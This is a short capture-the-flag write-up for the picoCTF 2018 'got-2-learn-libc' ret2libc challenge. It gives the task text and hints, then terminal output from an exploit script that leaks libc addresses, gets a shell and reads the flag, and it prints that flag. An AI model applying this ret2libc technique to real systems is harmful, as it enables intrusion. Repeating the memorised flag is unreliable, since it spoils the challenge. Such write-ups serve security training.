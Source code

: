 # got-2-learn-libc - Points: 250 - (Solves: 113)

This [program][1] gives you the address of some system calls.
Can you get a shell?
You can find the program in /problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee on the shell server.
Source.

[1]: https://2018shell2.picoctf.com/static/19aaaa33336df68d8e1412b4bed1164e/vuln
[2]: https://2018shell2.picoctf.com/static/19aaaa33336df68d8e1412b4bed1164e/vuln.c

## Hints

- try returning to systems calls to leak information
- don't forget you can always return back to main()

---

```sh
% python xpwn.py
[+] Starting local process '/problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee/vuln': pid 1669422
[*] puts is at    : 0xf7649140
[*] libc base     : 0xf76027c0
[*] system is at  : 0xf7624940
[*] exit is at    : 0xf76187b0
[*] /bin/sh is at : 0x565c1030
[+] Here comes the shell!
[*] Switching to interactive mode
total 16
-r--r----- 1 hacksports got-2-learn-libc_2   37 Sep 28 07:48 flag.txt
-rwxr-sr-x 1 hacksports got-2-learn-libc_2 7856 Sep 28 07:48 vuln
-rw-rw-r-- 1 hacksports hacksports          843 Sep 28 07:48 vuln.c
$ cat flag.txt
picoCTF{syc4al1s_4rE_uS3fUl_bd99244d}$
[*] Stopped process '/problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee/vuln' (pid 1669422)
```

picoCTF{syc4al1s_4rE_uS3fUl_bd99244d}$
